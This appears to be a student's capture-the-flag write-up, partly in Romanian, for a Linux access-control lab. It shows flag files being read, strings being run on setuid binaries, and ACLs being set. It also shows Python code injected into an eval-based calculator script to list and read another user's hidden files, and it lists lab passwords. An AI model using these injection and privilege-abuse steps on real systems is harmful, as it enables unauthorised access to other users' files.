 # Lab 5 Access Control

## Task 1
 
* **_Flag 1_**

... there is a flag in there... yeah right ... literally, a "flag"

```bash
$ cat /etc/secret/flag
# ISC{y1Z33}
```
* **_Flag 2_**

i have no idea for this one

* **_Flag 3_**

din hacker (numai el are permisiune de read in afara de root)
```shell
# sus
$ readelf -a /usr/local/bin/giff-me-flag | grep FLAG
# 0x000000006ffffffb (FLAGS_1)            Flags: NOW PIE

$ strings /usr/local/bin/giff-me-flag
# apar niste fraze printre care si secventa
# What do you say?
# PLEASE!!!11oneone   ----- yesss this is it!!!!!!!!
# Wrong answer!
# /etc/secret/.hahah/.y0u_c4nt_gu355_th1s
# Okay, here's your flag: %s
# 
```

din decanu sau mihai (orice in afara de hacker ca sa se duca pe other, ca numai ei au permisiune de execute)

```bash
$ giff-me-flag PLEASE!!!11oneone
# Okay, here's your flag: ISC{4lw4ys_s4y_m4g1c_w0rd}
# e flagul ascuns in /etc/secret
```


## Task2

userul *mihai* are parola hunter2

```bash
$ tree /home/
```
La userul *rekt0r* avem un tutorial

    tldr *decanu* poate folosi sudo in locul lui *rekt0r* ca sa execute script ul cu  read...

La *decanu* avem un folder ascuns cu parola [xaX4xaxa4444]

La *t4l3nt* avem un fisier ascuns cu flags - nvm e pt taskul 4



Nu mai am alte idei :(


## Task 3

* dezactivam "testing" mode ca sa rulam comanda de python, nu math.pi 
```bash
$ mv /tmp/.TEST_MODE_ENABLED /tmp/.TEST_MODE_DISABLED
# scriptul verifica daca exista fisierul si suprascrie expresia de python daca exista
```

* incercam sa aflam continutul directorului cu python (si chatGPT :P)
```bash
$ ./sant_calculator "'\n'.join(__import__('subprocess').check_output(['ls', '/home/t4l
3nt/.flags']).decode().splitlines())"
# hehe found it
# izitthis.txt
# no_thiz.txt
# whereisflagz0rx.txt
```

* afisam continutul fisierelor
```bash
$ ./sant_calculator "open('/home/t4l3nt/.flags/izitthis.txt', 'r').read()"
# TZAEAPA
# hmm hmmm ... fine

$ ./sant_calculator "open('/home/t4l3nt/.flags/no_thiz.txt', 'r').read()"
# NOT HERE
# it's not funny anymore

$ ./sant_calculator "open('/home/t4l3nt/.flags/whereisflagz0rx.txt', 'r').read()"
# ISC(su1d_vs_pyth0n_w1nz)
# intr-un final...
```

## Task 4

```bash
$ su student
# parola e student ofc :P
$ strings /usr/local/bin/copy-the-flags
# !/bin/bash
# set -e
# umask 000
# DEST=/home/student/givemeflagz
# su -c 'ls -l /home/student/' dujm3n >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 1; }
# ! su -c 'ls -l '$DEST'/' dujm3n >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 2; }
# ! su -c 'ls -l '$DEST'/' an0th3r0n3 >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 3; }
# su -c 'bash -c "umask 000; cp -f /home/flagz0wner/lastflag1.txt '$DEST'/"' flagz0wner || { echo 'Copy 1 failed!'; exit 4; }
# echo "First flag successfully copied!"
# DEST=/home/student/givemeflagz/second
# ! su -c 'ls -l '$DEST'/' flagz0wner >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 5; }
# su -c 'bash -c "umask 006; mkdir -p "'$DEST'"; umask 000; cat /home/flagz0wner/lastflag2.txt > '$DEST'/lastflag2.txt"' flagz0wner || { echo 'Copy 2 failed!'; exit 6; }
# echo "Second flag successfully copied!"

$ cd ~
$ mkdir givemeflagz
$ chmod og-rw givemeflagz/
# scoate permisiunile de read pt categoria others ca sa treaca de testul 2 si 3
# cred ca ajunge sa scoti si doar read
$ setfacl  -m  u:flagz0wner:7  givemeflagz/
# acorda permisiuni numai lui flagz0wner 
$ copy-t3h-fl4gz
$ ls -al givemeflagz/
$ cat givemeflagz/lastflag1.txt
# ISC{almost_there_hang_on}
$ cat second/lastflag2.txt
# second este un folder pe care avem numai drept de execute => blind guessed numele dupa formatul primului flag
# hope it works
# anddddd Yesssss it works!!!!!
# ISC{gg_ok_no_more_leet_speak}
```